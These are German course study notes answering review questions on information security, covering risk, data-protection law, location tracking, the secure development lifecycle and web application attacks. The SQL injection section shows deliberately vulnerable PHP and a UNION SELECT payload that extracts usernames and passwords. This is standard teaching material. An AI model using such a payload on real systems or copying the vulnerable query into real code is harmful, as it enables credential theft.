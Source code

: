 =======================================
FS14 InfSi3 Repetitionsfragen Antworten
=======================================

Dieses Dokument wird vorzu erweitert. Ergänzungen und Antworten sind herzlich willkommen.
Repetitionsfragen: https://github.com/moonline/HSR.modules.InfSi3/blob/master/RepetitionQuestions.rst


.. contents:: Inhaltsverzeichnis


1 Information Security Management
=================================

**1.0.1. Thread Model**

.. image:: img/rq-1.0.1.1.jpg
   :width: 50 %


**1.0.2. Effiziente Massnahmen**

Mit organisatorischen Massnahmen (M2 Organisationsmanagement).


**1.0.3. Risikomodell**

::

	Risiko = Schaden ◆ Eintrittswahrscheinlichkeit
	       = Schaden ◆ Bedrohung ◆ Verletzlichkeit der Schutzmassnahmen
	
	Es muss eine Bedrohung existieren, damit ein Risiko da ist!


.. image:: img/rq-1.0.3.1.jpg
   :width: 50 %


**1.0.4. Grund für Sicherheitsmassnahmen**

Unternehmen fürchten sich vor Gesetzesverstössen


1.1 Anforderungen an Informationssicherheit
-------------------------------------------

**1.1.1 Schadensindikatoren**

.. figure:: img/1.3.jpg

   Der Indikator gibt an, um was für einen Schaden es sich handelt. Die Skala definiert, in welcher Grössenordnung Bagatellen, Unfälle, Störfälle und Katastrophen für die jeweiligen Schäden liegen.


**1.1.2. Gesetzliche Anforderungen**

* Datenschutz (Bearbeiten von Personendaten)
* Vorschriften für Finanzinstitute
* Fernmeldegesetz
* Allgemeines Controlling


**1.1.3. Gesetze & Artikel**

DSG
	Datenschutzgesetz, regelt Bearbeitung von Personendaten, Schutz von Systemen gegen bestimmte Risiken
Stgb Art. 179
	Vorsätzlicher Missbrauch von Fernmeldeanlagen, Unbefugtes Beschaffen von Personendaten
HIPAA / TARMED
	Schutz von Gesundheitdaten
BankG Art 47
	Bankgeheimnis, Umgang mit Finanzdaten / Kundendaten
VSB 08
	Vereinbarung zwischen den Bankiervereinigung und Banken über Sorgfaltspflicht
PCI
	Payment Card Industry Data Security Standard Anforderungen, Schutz von Daten und Hardware
Fernmeldegesetz
	Regelt Telekommunikationsdienstleistungen sowie den Schutz übertragener Daten
SOX
	Allgemeines Controlling für US-börsenkotierte Unternehmen
FISA 1978
	Regelt Vorgehen bei Aufklärung und Spionageabwehr un den USA
PATRICOT ACT 2001
	Anti Terror Bestimungen zur vereinfachten Überwachung von Bürgern


1.2 Threads
-----------

**1.2.1. Bedrohung, Motivation, Mittel**

Die Bedrohung steigt sowohl mit zunehmender Motivation und zunehmenden Mitteln (Zeit/Finanzen) und den technischen Fähigkeiten.

Jedermann
	Ausprobieren, wenig Know How, Schaden gering, geringe Motivation
IT-Freak
	Persönliche Profilierung, gutes Know How, Schaden gering
Professioneller Hacker / Hacktivismus
	Gezielte Angriffe, gutes Know How, persönlicher oder politischer Gewinn
Spione
	Gezielte, mit viel Mitteln gestützte Angriffe, grosses Know How, Nationale Interesse, Schaden gross
	

**1.2.2. NSA**

* Nationale Sicherheitsagentur mit weltweiten Standorten
* Verarbeitet und überwacht riesige Datenmengen
* 30'000 MA / 8Mia Jahresbudget


**1.2.3. Quantum**

Computer werden hardware oder Softwareseitig infiziert und anschliessend Daten zur NSA umgeleitet.
Z.B. Leitet die NSA Trafic an Internet Routern um, um sich in ein login einzuhängen und das Target zu kompromitieren.



2 Location Based Services
=========================

**2.0.1. Typen von LSB**

Map/Navigation
	* Standort
	* Bewegung
Local Information/Search
	* Standort
	* User generated content
Tracker
	* Standort
	* Bewegung
Special (Friend finder, Augmented Reality, Gaming, ...)
	* Standort


**2.0.2. Standort bezogene Dienste (Beispiele)**

* Google Maps -> Aktuelle Position, ermittelt über IP, GPS, Wlan, Mobilfunk
* Trafic Info -> Aktuelle Position/Verkehrsweg
* Wetter App -> Aktuelle Position
* SBB Fahrplan (indirekt)
* Google Now
* Google Buzz (Around Me)
* Google Glass


**2.0.3. Datenschutzgesetz**

DSG Art3 Begriffe
	Personendaten
		Daten, die sich auf eine Person beziehen
	Besonders Schützenswerte Personendaten
		* Religiöse/politische Ausrichtung
		* Gesundheitsdaten
		* Soziale Hilfe
		* Strafverfolgung
	Persönlichkeitsprofil
		Erlaubt die Beurteilung der Persönlichkeit
DSG Art4 Grundsätze
	Bearbeiten von Personendaten
		Nur für vorgesehen Zweck verwenden
	Beschaffung von PD
		Zweck und Zweck ihrer Bearbeitung muss ersichtlich sein
	Einwilligung zur Bearbeitung
		* Betroffener muss angemessen Informiert werden
		* ausdrückliche Einwilligung für besonders Schützenswerte Daten
DSG Art5 Datensicherheit
	Personendaten müssen angemessen (organisatorisch/technisch) geschützt werden
DSG Art6 Auskunfstrecht
	Betroffene haben das Recht auf Auskunft über die Bearbeitung ihrer Daten
DSG Art14 Tracking/Persönlichkeitsprofile
	* Betroffene Person muss informiert werden
	* Angegeben werden müssen: 
		* Inhaber der Datensammlung
		* Zweck
		* Kategorien der Empfänger bei Datenweitergabe
		
**2.0.4. Google Analytics/Facebook Social Buttons auf Webseiten**

a) Gesammelte Informationen
	Google
		* Aufrufzeitpunkt, Dauer des Besuches jeder Seite
		* Ungefährer Standort, Land, Region, Ort, Provider, Down-/Uploadrate
		* Betriebsystem, Sprache, eingestellte Lokalisierung, Bildschirmauflösung, Gerätetyp
		* Browser Footprint, Unterstützte Plugins/API's
		* Neuer Benutzer oder wiederkehrender
	Facebook
		* Selbe Informationen wie Google Analytics +/-
		* Identität (z.B: Facebook login)
		* Mit Identität verknüpfte Informationen (Freunde, Familie, Vorlieben)
		* Was dem Benutzer gefällt oder nicht (Like)
	Anwaltskanzlei
		* Selbe Informationen wie Google Analytics
		
b) Zu Beachten
	* Facebook verfügt über Persönlichkeitsprofile der Benutzer -> DSG Art.14
	* Die Anwaltskanzlei muss in der Lage sein, Benutzern Auskunft darüber zu geben, welche Daten gesammelt wurden
	
	
2.1 Methoden zur Lokalisierung von Objekten
-------------------------------------------

**2.1.1. Passive Standortpreisgabe Beispiele**

* Online Fahrplan
* Google Maps
* Navi
* Wetter Apps


**2.1.2. Standortbekanntgabe bei Browsern**

Der Browser schickt alles, was er hat:

* Sichtbare WLAN Netzwerke
* IP


**2.1.3. Lokationsdaten**

Lokationsdaten, die mit einer Person verknüpft sind (auch IP Adressen) sind in CH Personendaten.


**2.1.4. IP Lokalisierung**

Über IP wird zugeteilter Provider ermittelt -> Zugangsknoten von ISP ist genauste mögliche Location.


**2.1.5. IP Adresse als Personendatum**

Da die IP mit der Identität eines Benutzers verknüpft ist sie das und unterliegt damit dem DSG.


**2.1.6. Cell Tower Localization**

* Provider weiss, in welcher Zelle sich ein Benutzer befindet
* Handy sieht jedoch mehrere Antennen und kann über einen Antennenstandortdatenbank mittels Triangulation ziemlich genau seine Position orten


**2.1.7. GSM Netz**

Ein Mobiltelefon gibt folgende Daten in einem GSM Netz preis:

* Identität, TeilnehmeriID+Verschlüsselungskeys auf SIM (GSM besitzt eine Authentisierung)
* Zelle (Standort auf weniger als eine Zelle genau da mit den Signallaufzeiten gearbeitet wird)
	* Location Area ID
	* Cell ID
	* Timing Advance
* Die weltweit eindeutige TeilnehmeriID wird auf der Luftschnittstelle verborgen und stattdessen eine temporäre verwendet, um Mithörer diese nicht preiszugeben


**2.1.8. Wlan Ortung**

* Nutzer gibt seine Mac Adresse Preis (Weltweit eindeutig)
* Ortung erfolgt über WLAN Datenbanken

**2.1.9. Beacons**

* Kurz- und Langdistanz RFID/Bluetooth Tags Zur Identifikation von Fahrzeugen (langdistanz) oder Personen in Gebäuden (Kurzdistanz)
* Smartphones verbinden sich mit Beacons an Messen


**2.1.10. E-Plate Long Range Tags**

Aktive RFID Tags in Kennzeichen, auslesbar auch 100m Entfernung und bis 320 Km/h


**2.1.11. Genauigkeit der Lokalisierung**

* Bluetooth/Beacons Kurzdistanz: Bis 2m
* GPS: Bis 15m, mit Korrekturdaten bis im cm Bereich


**2.1.12. GSP zur Flottenüberwachung**

Der Arbeitgeber überwacht damit den Mitarbeiter und trackt diesen Kontinuierlich. Der MA muss darüber informiert werden und sein Einverständnis geben.


**2.1.13. bewusste Bekanntgabe von Lokationsdaten**

Der Benutzer tätigt eine Handlung, mit der er seine Position bekannt gibt. Z.B:

* Hochladen eines Bildes mit GPS Daten
* Friends Finder (Standort Sharen)
* Facebook Places (An einem Ort "einchecken")
* Flicker Foto Upload: Standort auf Karte einzeichnen


**2.1.14. unbewusste Bekanntgabe von Lokationsdaten**

Die Bekanntgabe des Standortes ist ein Nebeneffekt eines genutzten Dienstes, z.B.:

* Wetter Apps
* Activity Tracker
* Google Suche (Browser Footprint, IP)
* CDN Abrufe
* Proxy


**2.1.15. Google**

Google hat ziemliche Umfangreiche Informationen über Benutzer, da sie auf sehr vielen Webseiten mit Google Analytics drinhangen und sehr viele Dienst betreiben, auf denen User breitwillig Informationenpreisgeben:

* Surfverhalten / Vorlieben (Suche)
* Freunde / Familie (Google+)
* Standort (Google Maps, Google Buzz, Google Glass, Autonome Fahrzeuge)
* Reisen (Flugvergleiche, Fahrpläne)
* Informationen über benutzes Gerät sowie online-Zeiten (Schalfverhalten)


**2.1.16. Browser Fingerprint**

* Browser / Device / BS / Auflösung / Sprache / Lokalisierung
* Standort / ISP
* Unterstützte JS Schnittstellen / Aktivierte Plugins / Addons / Media Support
* Browsereinstellungen wie "Do Not Track" / JS ein/aus / Cookie settings
* Local Storage / Flash Storage

Die Kombination dieser Merkmale ist einmahlig und damit der Benutzer eindeutig zuortbar/idenitifizierbar.


3 Software Security
===================

**3.0.1. Potentiell gefährliche Funktionen**

* Auffinden mit Blacklist (Tool)
* Massnahme gegen erneuten Fehler später: Tests


**3.0.2. Connectivity, Extensibility, Complexity**

Connectivity
	Jede Software ist mittlerweile über das Netz verbunden und somit einem grossen Angriffsrisiko ausgesetzt -> müsste sich entsprechend verteidigen
Extensibility
	Software selbst ist ausgereift und sicher aber Erweiterungen bringen wieder Schwachstellen ein
Complexity
	Zunehmende Komplexität erhöht die Fehlerwahrscheinlichkeit und somit die Wahrscheinlichkeit, das ein Security Problem vorliegt.
	

**3.0.3. Bugs, Flaws, Defects**

Bugs
	* Fehler im Code (Falschbenutzung von Schnittstellen)
	* Implementation Level Fehler
	* Maschinell auffindbar
	* z.B. Buffer Overflow, Race Condition, Unsave system call
Flaws
	* Falscher Programmfluss, Nicht behandeln von Spezialfällen
	* Design Level Fehler
	* Mit Code Analyse Tools nicht auffindbar
	* z.B: Method Overriding, error handling, type save confusion
Defect
	Überbegriff für Bugs und Flaws
	

**3.0.4. Bug oder Flaw?**


1) Rückgabewert von Read() ignored
   -> Bug
2) Verwendung von strlen() auf einem Wert, der nicht garantiert mit einem 0-Byte terminiert
   -> Bug
3) Speicherung von Benutzerpasswörtern als Klartext in der Datenbank
   -> Flaw
4) Passwort des Users mit memcmp mit Passwort in der DB vergleichen. Wenn der Rückgabewert von memcmp != 0 wird der Zugriff geblockt (memcamp("", password) gibt auch 0 zurück).
   -> Bug (Ja nach Definition könnte es auch ein Flaw sein)


**3.0.5. Software Security Basics**

* Risk management
	* Business and technical risk
	* Risk priorisation
	* Mitigation strategies
* Best practices
	* Code Review
	* Risk analysis
	* Penetration testing
* Knowledge
	* Prescriptive Knowledge(Principles/Guidelines)
	* Diagnostics (Vulnerabilitis, Exploits, Attacks)
	* Historical risks
	
	
**3.0.6. Risiko**

Setzt sich zusammen aus Schaden (Schadensausmass) und Eintrittswahrscheinlichkeit (Verletzlichkeiten, Bedrohung)

.. image:: img/rq-1.0.3.1.jpg
   :width: 50 %


Es sollte so viel Geld in Security investiert werden, das die Gesammtkosten (Schaden + Massnahmen) minimal sind.


**3.0.7a. Best Practises**

1) Code Review
2) Risiko Analysen
3) Penetration Testing


**3.0.7b. Massnahmen & Artefakte**

i) Requirements & Use Cases
	* 7 Abuse Cases
	* 4 Security Requirements
	* 3 Risk Analysis
ii) Architecture & Design
	* 3 Risk Analysis
iii) Test Plans
	* 6 Risk based Security Testing
iv) Code
	* 2 Code Reviews
v) Tests & Test Results
	* 5 Penetration testing
	* 3 Risk Analysis
vi) Feedback from the Field
	* 5 Penetration testing
	* 1 Security Operation
	
	
**3.0.8. Barry Boehms Cost of Change Law**

Mit jeder Phase im SW-Entstehungsprozess steigen die Kosten, wobei sie exponentiell steigen.
Bugs, die während der Entwicklung gefunden werden, sind um Faktoren günstiger, als Bugs, die beim Kunden gefixt werdne müssen.


**3.0.9. Software Security Knowledge**

* Prescriptive Knowledge
	* Principles
	* Guidelines
	* Rules
* Diagnostic Knowledge
	* Vulnerabilitis
	* Attacks
	* Exploits
* Historical Knowledge
	* Historical risks
	

**3.0.10. Security Knowledge Architecture**

.. figure:: img/3.8.jpg
   :width: 75 %

   Exploits sind erkannte Verletzlichkeiten. Aus diesen ergeben sich Angriffsmuster und Historische Risikodaten. Zum Verhindern von Verletzlichkeiten kommen Prinzipien (Guidelines, Rules) zum Einsatz.


**3.0.11 Code Review Tools**

1) Code Scanners: Scannen den Code nach Patterns (Regex)
2) Advanced Source Code Analysis Tools: Führen den Code aus und analysieren den Code Fluss. Diese finden auch falsch Verwendete Schnittstellen etc. die nicht auf den ersten Blick ersichtlich sind.


**3.0.12. Architectural Risk Analysis**

* Analyse über die Attenresistenz (Checklisten zum Finden von bekannten Problemen)
* Mehrdeutigkeitsanalyse (Unklarheiten in den Architekturdokumentationen)
* Schwächenanalyse (Analyse von Abhängigkeiten von externen Tools und Frameworks und dadurch entstehende Schwächen)



4 Microsoft Security Livecylce
==============================

**4.0.1. Continious Process Improvement & Accountability**

Continious Process Improvement
	* Ständiger Verbesserungsprozess des Security Livecylce
		* Vier Levels: Basic, Standardized, Advanced, Dynamic
	* Disciplines (In jeder Discipline wird Kontinuierlich versucht, ein höheres Level zu erreichen)
		* Schulungen, Policy, organisatorische Fähigkeiten
		* Anforderungen & Design
		* Implementierung
		* Verifizierung
		* Release & Response
Accountability
	* Definierte Verantwortlichkeiten für den Fall eines Vorfalls
	* Wenn was passiert, schnell rausfinden, was passiert ist (Release and Response)
	* Zugriff für alle Beteiligten (Public Repo)
	* Im Falle eines Vorfalles soll schnell und richtig reagiert werden
	
	
**4.0.2. Security Livecylce**

::

	.-------------------+-------------------------------------------------------------.
	| 1) Training       | Core Security training                                      |
	'---------------------------------------v-----------------------------------------'
	.-------------------+-------------------------------------------------------------.
	| 2) Requirements   | * Establish Security Requirements                           |
	|                   | '-> Experten einbeziehen                                    |
	|                   | * Create Quality gates / Bug bars                           |
	|                   | '-> Produkt erst freigeben, wenn Bug/w Rate unterschritten  |
	|                   | * Security & Privacy Risk Assessment (R. minimieren/tragen) |
	'---------------------------------------v-----------------------------------------'
	.-------------------+-------------------------------------------------------------.
	| 3) Design         | * Establish Design Requirements                             |
	|                   | * Analyse Attack Surface                                    |
	|                   | '-> z.B. einhalten von "Least Priviledge"                   |
	|                   | * Threat Modelling                                          |
	|                   | '-> Checklisten/Regeln (z.B. BSI Handbuch)                  |
	'---------------------------------------v-----------------------------------------'
	.-------------------+-------------------------------------------------------------.
	| 4) Implementation | * Use Aprooved Tools (z.B. Code analysis tools)             |
	|                   | * Deprecate Unsafe Functions                                |
	|                   | * Static Analysis (Bugs finden)                             |
	'---------------------------------------v-----------------------------------------'
	.-------------------+-------------------------------------------------------------.
	| 5) Verification   | * Dynamic Analysis                                          |
	|                   | '-> Flaws finden, korrekte Implementierung überprüfen       |
	|                   | * Fuzzy Testing (Mit randoom input fluten)                  |
	|                   | * Attack Surface Review                                     |
	'---------------------------------------v-----------------------------------------'
	.-------------------+-------------------------------------------------------------.
	| 6) Release        | * Incident Response Plan                                    |
	|                   | * Final Security Review                                     |
	|                   | * Release Archive                                           |
	'---------------------------------------v-----------------------------------------'
	.-------------------+-------------------------------------------------------------.
	| 7) Response       | Execute Incident Response Plan                              |
	|                   | '-> Verfügbarkeit von Personen für Ernstfall                |
	'---------------------------------------------------------------------------------'


**4.0.3. Begriffe**

Quality gates / bug bars
	Gefundene Bugs/Woche muss best. Rate unterschreiten, damit das Release freigegeben wird
Risk Assessment
	Risiken minimieren, kleine Risiken tragen
Analyse Attack Surface
	Angriffsmöglichkeiten untersuchen, einhalten von Regeln wie z.B. "Least Priviledge"
Threat Modelling
	Mit Checklisten/Regeln Angriffsmöglichkeiten untersuchen (z.B. BSI Handbuch)
Fuzzy Testing
	Fluten mit Randoom Input
Dynamic Analysis
	Verhalten analysieren, macht das Programm, was es soll
Static Analyis
	Bugs finden
Response Plan
	Verantwirtlichkeiten, Verfügbarkeiten von Personen für Ernstfall
	

	
5 Web Application Security
==========================

**5.0.1. Web Applications**

* Über das Netz erreichbare Services (Zugriff von überall)
* Meisst Client/Server Architektur, Multi Tier Architektur
* Universellen Client (Browser), der nicht kontrolliert werden kann
* Direkter Zugriff zu Backend Data


**5.0.2. Web Application Architecture**

::

	.----------------------------------------------------------.
	|                          Client                          |
	'----------------------------------------------------------'
	                             ^ |
	                             | | Internet
	                             | |
	.----------------------------------------------------------.
	|              Server Network / Company Network            |
	|                            | |                           |
	|                            | v                           |
	| .------------------------------------------------------. |
	| |              Router, Firewall, Switching             | |
	| '------------------------------------------------------' |
	|                            ^ |                           |
	|                            | v                           |
	| .----------------..------------------..----------------. |
	| |                ||    Web Servers   ||                | |
	| '----------------''------------------''----------------' |
	|                             |                            |
	| .------------------------------------------------------. |
	| |                Web Application Server                | |
	| '------------------------------------------------------' |
	|          .------------------'------------------.         |
	| .---------------. .------------------. .---------------. |
	| |               |-| Database Servers |-|               | |
	| '---------------' '------------------' '---------------' |
	'----------------------------------------------------------'


**5.0.3. Cookies**

* Textdateien, die im Browser abgelegt werden (Speicherung von Requestübergreifender Information Clientseitig)
* Nur Scripts der Domain, die das Cookie gesetzt haben, dürfen es auch wieder lesen

.. code-block:: HTTP

	// scheme ame=value; name2=value2
	Cookie: LSID=DQAAAK…Eaem_vYg; Path=/accounts; Expires=Wed, 13 Jan 2021 22:23:01 GMT; Secure; HttpOnly; Domain=hsr.ch;
	
	
**5.0.4. Session Management**

1) Benutzer verbindet sich mit Server, loggt sich ein falls nötig
2) Server erzeugt eindeutige, nicht erratbare Session ID
3) Server speichert Session zu ID bei sich ab und schickt Session ID an Client
4) Client sendet Session ID bei jedem Request wieder mit, sodass der Server weiss, wer er ist

::

	                   Client              Web Server           App Server           DB Server
	                  
	Application Session  |<---------------------------------------->|
	
	HTTP Session         |<------------------->|
	
	Internal Session                           |<------------------>|
	
	Db Session                                                      |<------------------>|
	
	TCP Session         |<------------------->|<------------------->|<------------------>|
	

**5.0.5. Arten von Cookies**

Session Cookie
	* Speichert Session ID
	* Nicht persistent (Browser Memory)
	* Keine "expire time"
Persistent Cookie
	* In File abgelegt
	* Expire time
Secure Cookie
	* Darf nur über SSL/TLS Verbindungen transportiert werden
3rd Party Cookie
	* Wurde nicht von der ursprünglichen Seite gesetzt
HTTP Only Cookie
	* Nur durch HTTP auslesbar (Nicht durch JS)

**Supercookie**

* z.B. Flash Cookies
* Schwieriger zu finden und entfernen, Cookie-Remove Mechanismen von Browser finden sie nicht
* Werden an unterschiedlichen Orten gespeichert, z.B. in einem durch ein Flash Plugin angelegten File
* Erweiterte Funktionen, wie z.B. reguläre Cookies reaktivieren/verlängern


**5.0.6. E-Tags**

* Information, ob sich Seite beim Browser im Cache befunden hatte (Caching Kontrolle)
* Kann als Seitencookie gentzt werden, da zu jeder aufgerufenen Seite eine eindeutige ID gespeichert wird


**5.0.7. Cookie read/write access**

* Same Origin Policy: Nur Scripts vom gleichen Ursprung dürfen ein Cookie lesen


**5.0.8. Same Origin Policy**

* Port+Host+Protocoll stimmen überrein
* IP =! URL
* ABER gleiche Domain mit unterschiedlichen IP's (mehrere Web-Server) = Same Origin


**5.0.9. 3rd Party Cookie Data Mining**

1) Geladene Seite bindet über Skript ein Werbebanner eines Werbeanbieters ein und übermittelt Info über Domain (Damit die Werbeanbieter den Zugriff einem Werbekunden zuordnen können)
	.. code-block:: HTML
	
		<script>
			// create banner image from remote
			var bannerImage = document.createElement('img');
			bannerImage.outerHTML = '<img src="http://www.adtech.com/ad/?page=20min" />';
			
			document.getElementByTagName('body')[0].appendChild(bannerImage);
		</scipt>
		
2) Browser lädt eingebundenes Element. Dadurch erhält der Werbeanbierter die gleichen Informationen über den Client, die der Anbieter der ursprünglichen Seite auch hat (Browser, BS, Auflösung, Plugins, IP, Location, ...). Durch einen Parameter im Aufruf des Elements erfährt der Werbeanbieter, wessen von seinen Werbekunden (im Beispiel 20min.ch) er den Aufruf zuordnen muss.
3) Der Werbeanbieter setzt ein Cookie oder Supercookie um die Client beim nächsten Mal wiedererkennen zu können. Diese Wiedererkennung funktioniert aber auch über den Browser Footprint.
4) Wird die Werbung dieses Werbeanbieters von ganz vielen Seiten eingebunden (wie z.B. Google Analytics), so kann der Werbeanbierter Clients über Webseiten hinweg verfolgen und Persönlichkeitsprofile erstellen.


**5.0.10. P3P**

* Privacy Policy
* Deklaration der Seite, was mit welchen Daten geschieht
* Matcht die Policy nicht, wird die Seite nicht geladen
* Problem: Selbstdeklaration


**5.0.11. Sandboxing**

* Code wird in einem Container ausgeführt, aus dem er nicht ausbrechen kann
* Code hat beschränkten Ressourcen und API Zugriff
* Dem Code wird grundsätzlich nicht vertraut


**5.0.12. Rechte und Möglichkeiten**

JavaScript
	* Ohne Warnung
		* Remote Verbindungen
		* Video/Audio
		* Local Storage
		* Local DB
	* Mit Nachfrage
		* GeoLocation
		* File Access
		* Camera/Microphone Access

Flash
	* Remote Verbindungen
	* File Access
	* Camera/Microphone
ActiveX
	* Remote Verbindungen
	* File Access
Java Plugin
	* Remote Verbindungen
	* File Access


5.1 OWASP
---------

**5.1.1. OWASP**

Open Web App Security Project


**5.1.2. Häufigste Vulnerabilitis**

1) Injection
2) Broken Authentication and Session Management
3) Cross Site Scripting


**5.1.3. Injection Flaws**

* Einschleusen von Code über Benutzereingaben
* Aämmtliche Benutzereingaben müssen validiert werden
	* Whitelisting (allow none, allow some)
	* Blacklisting (allow all, disallow some)
	* Escaping (Replace bad data)
	
* Massnahmen gegen Injection
	* Review
	* Avoid external params
	* limit priviledges of app
	* validate ALL input
	* use system functions instead of own (e.g. prepared statements)


**5.1.4. Broken Authentication & Session Management**

* Umgehen von Authentication
* Login attacks (user/pw enumeration)
* Stehlen von Session/Session fixation
* Fehlende Verschlüsselung/Signaturen -> Modifikation von Session/Login Daten (z.B. Modifikation von SAML assertions, umleitungen)


Massnahmen:

* IMMER Cookies benutzen, Session ID nie in der URL oder post übergeben, Secure Cookies nutzen
* User auf allen Tiers authentifizieren (Extern Session ID/intern mappen)
* keine eigenen Krypto Implementationen
* lange Ursername/PW etablieren, failed logins loggen
* Passwörter nicht Klartext speichern oder übermitteln
* PW Recovery Mechanismen sicher umsetzen


**5.1.5. XSS**

Cross-Site Scripting
	Ausführen von eingeschleustem Javascript Code auf einem andern Client
Arten
	Stored
		* Der Code wird serverseitig persistiert und mit der Seite ausgeliefert.
		* Bsp: Ein Angreifer schreibt ein Snippet in ein Gästebuch. Jeder, der die Einträge anschaut, führt das eingebettete Script aus
	Reflected
		* Ein Angreifer schreibt ein Snippet in ein Eingabefeld, das sofort andern Benutzern dargestellt wird
		* Bsp: Search History
Gegenmassnahmen
	* Escaping of output: Steuerzeichen für Scripts Escapen (<,>,',")
	* validate input (reject, delete or replace "dangerious" characters or tags)
	* CSP (Content Security policy)


6 Web Application Security 2
============================

6.1 Injection
-------------

**6.1.1. Port 80 & Firewalls**

Gegen Angriffe auf Application Level über Port 80 nützt eine Firewall nichts. Wenn sie Port 80 blockieren würde, würde aller Verkehr geblockt.


**6.1.2. Angriffe / Layer**

Die unteren Layer sind mittlerweile sehr sicher implementiert und Schwachstellen ausgemerzt. Auf Application Level hingegen werden es mit jeder Applikation, die am Netz hängt neue.


**6.1.3. SQL Injection**

Der Angreifer bricht mit einem Steuerzeichen aus dem Kontext (Value) aus und kann dann fast beliebig Kommandos hnzufügen.

.. code-block:: php

	// search for employee to list them
	$employeeName = $_POST["searchName"];
	$statement = "SELECT name, image FROM employees WHERE name LIKE '%"+$employeeName+"%'";
	
	
Ein Angreifer beendet durch einfügen eines ' das Statement, fügt ein beliebiges Kommando hinzu und kommentiert den Rest aus:

::

	Hans%' UNION SELECT username, password FROM employee WHERE '' == '
	

Dadurch entsteht das folgende Statement, das noch die Benutzernamen und Passwörter der Angestellten ausgibt:

.. code-block:: sql

	SELECT name, image FROM employees WHERE name LIKE '%Hans%' UNION SELECT username, password FROM employee WHERE '' == ''
	
	
**6.1.4. Technische Grundlage**

Siehe Beispiel Vorherige Frage.

Der Angreifer bricht mit ' oder -- aus dem Value-Kontext in den Steuerungskontext aus.


**6.1.5. EXEC**

* Der Angreifer kann alles ausführen, was der DB User auch kann. Kann er z.B. mit EXEC eine Remote Shell aufmachen, kann er beliebig Schadcode nachladen und asführen.
* Zudem kann er Verbindungen aufmachen intern, die nur lokale User können (z.B. Application Server angreifen)


**6.1.6. Blind / Time-Based SQL Injection**

Blind SQL Injection
	Um herauszufinden ob überhaupt Injection möglich ist: illegales Statement produzieren -> Wenn ein Fehler ausgegeben wird, hat die Injection funktioniert, auch wenn ansonsten über eine Injection kein Output ausgegeben werden kann.
Time Based
	An das Statement ein Command anhängen, das länger läuft (z.B. Benchmark). Funktioniert die Injection, verlängert sich die Antwortzeit des Servers -> Wenn keine Blind Injection möglich ist, weil keine Fehlermeldungen ausgegeben werden.
	

**6.1.7. User Defined Functions**

Kann ein Angreifer über Injection User Defined Functions erzeugen, kann er unter Umständen aus der DB ausbrechen und z.B. ein Tunnel nach aussen aufbauen, durch den er weiteren Code ausführen kann.


**6.1.8. Massnahmen gegen Injection**

* Escaping (Steuerzeichen wie ' oder -- escapen) -> keine 100%ige Sicherheit
* White/Blacklisting von Zeichen beim Input -> Nur mittelmässige Sicherheit
* Prepared Statements -> Sicher
* KEINE Dynamischen Prepared Statements!
* Rechte des DB Users beschränken -> darf nur das, was er wirklich muss
* Application Server Rechte einschränken -> darf nur das tun, was er wirklich muss
* Kein direkter Zugriff auf Application- und DB-Server
* Richtiges Error Message Handling


**6.1.9. Prepared Statement Vulnerability**

Kommt innerhalb eines Prepared Statement ein dynamischer Parameter vor, so ist dieser ebenfalls verwundbar.

